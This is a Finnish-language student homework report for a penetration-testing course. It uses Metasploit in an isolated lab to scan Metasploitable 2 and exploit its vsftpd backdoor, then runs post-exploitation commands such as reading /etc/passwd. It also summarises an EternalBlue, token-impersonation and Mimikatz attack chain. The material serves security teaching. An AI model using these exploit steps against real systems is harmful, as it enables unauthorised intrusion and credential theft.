# h3 EternalHomework

Viikon läksyjen tarkemmat tehtävänannot löytyvät [täältä](https://terokarvinen.com/tunkeutumistestaus/#h3-eternalhomework).

### Tehtävissä käytetty työympäristö
- Lenovo Yoga Slim 7 Pro (AMD Ryzen 7 5800H @ 3.20 GHz, 16 GB DDR4-3200, NVIDIA GeForce RTX 3050 laptop 4 GB GDDR6). WIN11, versio 25H2.
- Oracle VirtualBox 7.2.6
  - Linux Kali 2026.1 x64, 4 GB RAM, 2 prosessoria
  - Metasploitable 2, 2 GB RAM
- Molemmat virtuaalikoneet ovat host-only verkossa.
  - VirtualBox Host-Only Ethernet Adapter #2.
    - Adapteri konfiguroitu manuaalisesti, DHCP Server käytössä.

Labratehtävissä virtuaalikoneet eivät ole julkisessa verkossa. Tämä on varmistettu pingaamalla kummallakin koneella ``$ ping 8.8.8.8`` ja vastaukseksi on saatu ``ping: connect: Network is unreachable``.

Tehtävissä käytetty Linux Kalia, ellei toisin mainita. Metasploitable on ollut taustalla auki.

## x) Lue ja tiivistä

### x-1) Jaswal 2020: Mastering Metasploit

Ensimmäinen lukutehtävä oli Jaswal 2020: Mastering Metasploit - 4ed: Chapter 1: Approaching a Penetration Test Using Metasploit, kappaleesta Conducting a penetration test with Metasploit aina kappaleen yksi loppuun. Luettavaa oli paljon, joten tiivistäminenkin oli vaihteeksi hieman työläämpää.

#### Teoria:
- Ensikertalaisen suositellaan tutustuvan vielä lisäksi Metasploitin dokumentaatioon.
- Metasploitin keskeiset käsitteet ovat exploit, payload, auxiliary, encoder ja Meterpreter.
  - Exploit on koodi tai menetelmä, jolla hyödynnetään kohdejärjestelmän haavoittuvuutta.
  - Payload on koodi, joka suoritetaan kohteessa onnistuneen exploitin jälkeen.
  - Auxiliary on apumoduuli, jota käytetään esimerkiksi skannaukseen, tiedonkeruuseen tai muihin tukitoimintoihin.
  - Encoder on mekanismi, jolla moduuleja tai hyötykuormia voidaan muuntaa vaikeammin tunnistettavaan muotoon.
  - Meterpreter on edistynyt payload, joka toimii muistissa ja tarjoaa laajat jälkihyökkäystoiminnot kohteessa.
- Metasploit on hyödyllinen, koska se on avoimen lähdekoodin työkalu, helposti laajennettava ja soveltuu hyvin myös laajojen verkkojen testaamiseen.
- Verrattuna manuaalisiin menetelmiin Metasploit helpottaa payloadien vaihtoa, hyökkäysten hallintaa ja siistimpää poistumista kohteesta.
- Pentestissä edetään vaiheittain: tiedustelu, haavoittuvuuksien tunnistaminen, exploittaus, jälkihyökkäys ja eteneminen muihin järjestelmiin.

#### Työkalut:
- Metasploit Framework toimii koko prosessin runkona.
- db_nmap mahdollistaa Nmap-skannausten ajamisen Metasploitin sisältä ja tulosten tallentamisen tietokantaan.
- Workspace auttaa erottamaan eri testien tiedot toisistaan.
- Auxiliary-moduulit sopivat esimerkiksi haavoittuvuuksien tarkistamiseen.
- Meterpreter tarjoaa monipuoliset post-exploitation-toiminnot.
- Incognito, Mimikatz ja Kiwi ovat hyödyllisiä lisäosia tokenien ja tunnistetietojen käsittelyyn.
  - Incognito on lisäosa, jolla voidaan listata ja impersonoida käyttöoikeustokeneita.
  - Mimikatz ja Kiwi ovat työkaluja tai lisäosia, joilla voidaan kerätä tunnistetietoja, hasheja ja joskus myös selväkielisiä salasanoja muistista.
- Autorouten avulla hyökkääjä voi käyttää murrettua konetta päästäkseen sisäverkon muihin osiin.
- Psexec-/local_ps_exec-tyyppiset moduulit mahdollistavat etenemisen muihin koneisiin saatujen oikeuksien avulla.

#### Hyökkäyksen case-study:
- Kohteesta kerättiin ensin aktiivisesti tietoa Nmapilla Metasploitin sisältä: avoimet portit, palvelut, käyttöjärjestelmä ja SMB-tiedot tallennettiin Metasploitin tietokantaan omaan workspaceen.
- Skannauksen perusteella havaittiin, että portissa 445 pyöri SMB-palvelu ja kohde oli Windows 7 SP1. Nmapin ja Metasploitin tarkistuksilla varmistettiin, että järjestelmä oli haavoittuva MS17-010/EternalBlue-haavoittuvuudelle.
- EternalBlue-exploitilla saatiin aluksi komentotulkki kohteeseen, joka päivitettiin vakaammaksi Meterpreter-istunnoksi. Tämän jälkeen yhteys siirrettiin vähemmän epäilyttävään prosessiin, jotta pääsy pysyisi vakaampana.
- Post-exploit-vaiheessa selvitettiin Active Directory -ympäristön tiedot ja löydettiin Domain Controller, joka sijaitsi toisessa aliverkossa. Murretun koneen kautta liikenne voitiin reitittää sisäverkkoon autoroute-moduulilla.
- Kohdekoneelta löytyi domain administrator -oikeuksilla ajettuja prosesseja. Incognito-lisäosan avulla impersonoitiin järjestelmänvalvojan token, minkä jälkeen Domain Controlleriin saatiin SYSTEM-tason Meterpreter-yhteys psexec-tyyppisellä menetelmällä.
- Lopuksi Domain Controllerilta voitiin kerätä tunnistetietoja, kuten salasanojen hasheja ja joissain tapauksissa myös selväkielisiä tunnuksia Mimikatz- ja Kiwi-työkaluilla. 
- Tapaus osoittaa, miten yhdestä haavoittuvasta työasemasta voidaan edetä koko toimialueympäristön hallintaan.

#### Keskeiset havainnot:
- Metasploit tukee koko pentest-prosessia.
- Tietokannan ja workspacejen käyttö tekee työskentelystä järjestelmällisempää.
- Yhden koneen kompromisointi voi mahdollistaa etenemisen myös muihin sisäverkon järjestelmiin. 

### x-2) Mitä nmap -sn tekee?

- ``-sn`` tarkoittaa "No port scan" eli ei porttiskannausta. ``-sn`` tunnetaan myös nimillä ping sweep tai ping scan.
- Optio käskee nmapin tehdä vain isäntälaitteiden haun (host discovery) ilman porttiskannausta - ja tulostaa vain ne laitteet, jotka vastasivat kyselyyn.
- Oletuksena ``-sn`` lähettää neljänlaisia paketteja:
  - ICMP echo request (perinteinen ping)
  - TCP SYN porttiin 443
  - TCP ACK porttiin 80
  - ICMP timestamp request
- Luotettavampi kuin Broadcast-pingi, koska monet laitteet eivät vastaa broadcast-kyselyihin.
- Se ei ole "vain ping", sillä sen kanssa voi pyytää myös esimerkiksi tracerouten tai NSE host scriptejä.

Käytin lähteenä nmapin omia dokumentteja: [Host Discovery](https://nmap.org/book/man-host-discovery.html) ja [Host Discovery Controls](https://nmap.org/book/host-discovery-controls.html). Valitsemani lähteet ovat ohjelman omaa virallista dokumentaatiota, eikä ulkopuolisen tekemää tiivistelmää.

## b) Tallenna porttiskannauksen tuloksia Metasploitin tietokantoihin

Tehtävänannon lopussa löytyi vinkki, miten lähteä tehtävän kanssa liikkeelle. Ajoin ensimmäisenä komennon ``$ sudo msfdb init``. Tämä käynnisti Metasploitin tietokannan. Komento olisi myös alustanut tietokannan, mutta tämän olin ehtinyt tehdä tunnilla tutustuessani Metasploitiin ensimmäisen kerran. Tietokannan käynnistämiseen todennäköisesti löytyy itsessäänkin oma komento.



Käynnistin tämän jälkeen Metasploitin komennolla ``$ sudo msfconsole``. Tarkistin vielä tietokannan toiminnan komennolla ``msf> db_status``, ja sain vastaukseksi ``[*] Connected to msf. Connection type: postgresql.`` - tietokanta toimii. 

Tarkistin aktiivisen workspacen komennolla ``msf> workspace`` ja kun aktiivisena oli tunnilla luotu ``lab1``, loin tehtävää varten kokonaan uuden komennolla ``msf> workspace -a h3laksy``. Siirryin ``msf> workspace h3laksy`` komennolla tähän työtilaan. Koska tämä workspace oli uusi, oli se myös tyhjä. Tämä kävi toteen ajamalla komennot ``msf> hosts`` ja ``msf> services``, mitkä näyttivät tietokantaan tallennetut koneet ja palvelut.



Tarkistin IP-osoitteen komennolla ``ip a`` ja vastauksesta löytyi osoite ``192.168.129.4/24``. Tämän tiedon perusteella porttiskannaus kannattaa ajaa koko aliverkkoon ``192.168.129.0/24``, niin myös Metasploitable tulee mukaan. Ajoin porttiskannauksen komennolla ``msf> db_nmap -sV 192.168.129.0/24``. Komennossa on mukana ``-sV``-versioskannaus ja skannauksen tulokset tallennetaan tietokantaan.



## c) Tarkastele Metasploitin tietokantoja

Tarkastelin skannauksen tuloksia Metasploitin tietokannasta komennoilla ``msf> hosts`` ja ``msf> services``. Hosts näytti löydetyt isäntäkoneet ja services näytti niillä havaitut avoimet portit ja palvelut. Lisäksi kokeilin suodattaa tuloksia esimerkiksi portin perusteella komennolla ``msf> services -p 80`` ja palvelun perusteella komennolla ``msf> services -s ssh``.



## d) Internet famous

Ajoin uteliaana ensiksi Metasploitissa komennon ``msf> search exploit``. 6750 hakutulosta ei todellisuudessa auttanut mitään.

Uusi yritys nyt niin päin, että Googleen haku ``Famous Metasploit exploit``. Googlen AI-yhteenvedosta poimin ensimmäiseksi tarjotun BlueKeepin (CVE-2019-0708). Se on Microsoftin Remote Desktop Services -palveluun liittyvä kriittinen haavoittuvuus, joka sai paljon julkisuutta vuonna 2019, koska Microsoft [varoitti](https://www.microsoft.com/en-us/msrc/blog/2019/05/prevent-a-worm-by-updating-remote-desktop-services-cve-2019-0708) sen olevan wormable eli mahdollisesti automaattisesti verkossa leviävä.

Hain tämän jälkeen Metasploitissa pelkästään BlueKeeppiä komennolla ``msf> search bluekeep``. Hakutulokset näyttivät tällä kertaa paljon selkeämmiltä. Samainen exploit löytyi riviltä 3. Komennolla ``msf> info 3`` pystyi lukemaan vielä lisää tietoa exploitista.



## e) -oA foo vs. db_nmap

Nmapin oma -oA (output to all formats) -tiedostoon tallennus:
- Tallentaa nmapin tulokset kolmeen tiedostoon kerralla:
  - foo.nmap = normaali luettava tekstituloste.
  - foo.xml = rakenteinen XML-tiedosto.
  - foo.gnmap = grepable-muoto, eli tekstimuoto jota on helppo käsitellä komentorivityökaluilla.
  
Metasploit tietokanta:
- Tulokset heti Metasploitin käytössä
- Esimerkiksi hosteja ja palveluita voi listata ja suodattaa suoraan niiden komennoilla.
- Tallennettu data liittyy workspaceen, ja sopii hyvin jatkohyökkäysten, moduulihakujen ym. työskentelyn pohjaksi

Vertailun tulos:
- Nmapin tiedostomuodot soveltuvat hyvin dokumentoitavaksi, arkistoitavaksi ja jatkokäsiteltäväksi.
- Metasploitin tietokantatallennus on käytännöllinen, kun skannaustuloksia halutaan käyttää suoraan Metasploitin sisällä myöhemmissä vaiheissa.

Lähteinä käytin [nmapin](https://nmap.org/book/man-output.html), [Rapid7:n](https://docs.rapid7.com/metasploit/scanning-and-managing-hosts/) ja [Metasploitin](https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html) dokumentaatioita.

## f) Murtaudu Metasploitablen vsftpd-palveluun

Hain ensiksi exploitteja vsftpd:stä komennolla ``msf> search vsftpd``. Hakutuloksia oli kaksi: auxiliary (rivi 0) ja exploit (rivi 1). Tässä tehtävässä tarvitsin apumoduulin sijasta itse menetelmää. Jatkoin valitsemalla exploitin komennolla ``msf> use 1``. Use 1 valitsi käytettäväksi mitä rivillä yksi oli, vastaava komento olisi ollut ``msf> use exploit/unix/ftp/vsftpd_234_backdoor``.



``msf> show options``-komennolla sai exploitin asetukset auki. Asetuksissa näkyi mitkä ovat pakollisia asetuksia, esimerkiksi moduulin asetuksissa RHOSTS on Required ja kohta on tyhjä. Tässä tulisi olla hyökkäyksen kohdeosoite. Toinen vaadittu tyhjä kohta oli payloadin LHOST, mihin tulee oman koneeni IP.

RHOSTin sai asetettua komennoilla ``msf> set RHOSTS 192.168.129.3`` (huom. monikkomuoto). Muistin tässä kohtaa vielä Metasploitablen IP-osoitteen, vaihtoehtoisesti sen olisi löytänyt komennolla ``msf> hosts``.

LHOSTin sai asetettua vastaavalla tavalla ``msf> set LHOST 192.168.129.4.



Asetusten jälkeen tarkistin ``msf> show options``-komennolla osoitteiden tallentuneen oikein. RHOSTS ja LHOST -asetukset olivat tallentuneet oikein.

Enää tarvitsi vain käynnistää murtautuminen komennolla ``msf> exploit``. Back door has been spawned!



Tarkistin vielä ``sysinfo``-komennolla, että olen varmasti murtautunut oikeaan osoitteeseen. Sen tulos osoitti, että sessio oli koneessa metasploitable.localdomain, jonka käyttöjärjestelmä oli Ubuntu 8.04.



## g) Lateral movement

Jaswalin kirjan perusteella levittäytymistä varten kerättävää tietoa on mm:
- Käyttöoikeudet: ``getuid`` näyttää, millä tunnuksella hyökkääjä toimii. Tämä kertoo, kuinka laajasti kohdejärjestelmää voidaan lukea, muokata ja hyödyntää jatkossa.
- Prosessit ja prosessiympäristö: ``getpid``, ``ps`` ja ``migrate`` kertovat, missä prosessissa sessio toimii ja kuinka vakaa se on.
- Verkkorajapinnat ja näkyvät verkot: ``ifconfig``, ``arp`` ja myöhemmin ``autoroute`` auttavat selvittämään, mitä verkkoja ja laitteita murretulta koneelta nähdään.
- Muut käyttäjät ja tunnisteet: prosesseista, tokeneista ja mahdollisista tunnuksista voidaan löytää muiden käyttäjien oikeuksia. Näitä voidaan käyttää siirtymiseen uusiin järjestelmiin ilman uutta exploitointia.
  - esim cat /etc/passwd, 

Ajoin esimerkeiksi komennot ``getuid``, ``ipconfig`` ja ``arp``. Käyttäjiin ja tunnisteisiin liittyvänä esimerkkinä siirryin ``shell``-komennolla tavalliseen komentotulkkiin ja tarkastelin paikallisia käyttäjätilejä komennolla ``cat /etc/passwd``.




## h) Murtaudu Metasploitableen toisella tavalla

Aikaa oli enemmän kuin taitoa hyödyntää sitä.

## i) Demonstroi Meterpreterin ominaisuuksia

Demonstroin kohdissa f) ja g) jo useita Meterpreterin ominaisuuksia. Kohdassa f) käytin ``sysinfo``-komentoa kohdejärjestelmän perustietojen tarkasteluun. Kohdassa g) käytin komentoja ``getuid``, ``ipconfig`` ja ``arp`` sessio-oikeuksien, verkkotietojen ja lähiverkon muiden koneiden selvittämiseen. Lisäksi siirryin ``shell``-komennolla tavalliseen komentotulkkiin ja tarkastelin paikallisia käyttäjätilejä komennolla ``cat /etc/passwd``.

Jo esiteltyjen lisäksi Meterpreteristä löytyy seuraavat:
- ``help`` listaa Meterpreterin käytössä olevat komennot.
- ``ls`` näyttää tiedostoja ja hakemistoja.
- ``pwd`` näyttää nykyisen hakemiston.
- ``ps`` listaa kohdekoneen käynnissä olevat prosessit.
- ``background`` siirtää session taustalle.

## j) Tallenna shell-sessio tekstitiedostoon script-työkalulla

Aikaa oli enemmän kuin taitoa hyödyntää sitä.

Shell-session tallennus olisi onnistunut kuitenkin script-työkalulla komennolla ``$ script -fa log001.txt``, jonka jälkeen kaikki komentorivissä suoritetut komennot ja niiden tulosteet olisivat tallentuneet tiedostoon. Tallennus olisi päätetty komennolla exit.

``$ script -fa log001.txt``
- script = aloita session tallennus
- -f = kirjoita tiedostoon heti
- -a = lisää tiedoston loppuun, älä ylikirjoita
- log001.txt = lokitiedoston nimi

## k) Pivot point

Aikaa oli enemmän kuin taitoa hyödyntää sitä.

Tässä kohdassa ideana olisi ollut kuitenkin koota kaikki harjoituksen aikana syntyneet tiedostot, kuten script-lokit ja Nmapin -oA-tiedostot, samaan kansioon (uusi kansio luotu``mkdir h3laksyt``) ja etsiä niistä hyödyllisiä tunnisteita ``grep -r`` -komennolla.

Pohdintaa tehtävästä: 
- Missä kohdassa nmapin -oA -tiedosto olisi pitänyt luoda, e) kohta ei ilmeisesti ollutkaan vain teoriakysymys?

## l) ATTAAACK!

- Initial Access – Exploit Public-Facing Application (T1190)
  - Murtauduin Metasploitableen haavoittuvan vsftpd-palvelun kautta Metasploit-exploitilla.
- Execution – Command and Scripting Interpreter: Unix Shell (T1059.004)
  - Käytin Meterpreterin shell-komentoa ja ajoin tavallisia Unix-komentoja, kuten cat /etc/passwd.
- Discovery – Network Service Discovery (T1046)
  - Tein Nmap- ja db_nmap-skannauksen palveluiden ja avoimien porttien löytämiseksi.
- Discovery – Account Discovery: Local Account (T1087.001)
  - Tarkastelin paikallisia käyttäjätilejä komennolla cat /etc/passwd.

## Lähteet

Tero Karvinen
- Tunkeutumistestaus, H3-EternalHomework: https://terokarvinen.com/tunkeutumistestaus/#h3-eternalhomework

Nipun Jaswal
- Mastering Metasploit - 4th Edition (2020), chapter 1: https://learning.oreilly.com/library/view/mastering-metasploit/9781838980078/

Nmap documentation
- Host Discovery: https://nmap.org/book/man-host-discovery.html 
- Host Discovery Controls: https://nmap.org/book/host-discovery-controls.html
- Output: https://nmap.org/book/man-output.html

Microsoft
- Prevent a worm by updating Remote Desktop Services (CVE-2019-0708): https://www.microsoft.com/en-us/msrc/blog/2019/05/prevent-a-worm-by-updating-remote-desktop-services-cve-2019-0708

Rapid7 Docs
- Scanning and Managing Hosts: https://docs.rapid7.com/metasploit/scanning-and-managing-hosts/

Metasploit Docs
- Database Support: https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html

Linux Man Pages
- Script(1): https://man7.org/linux/man-pages/man1/script.1.html

MITRE ATT&CK
- Initial Access: https://attack.mitre.org/tactics/TA0001/
- Execution: https://attack.mitre.org/tactics/TA0002/
- Discovery: https://attack.mitre.org/tactics/TA0007/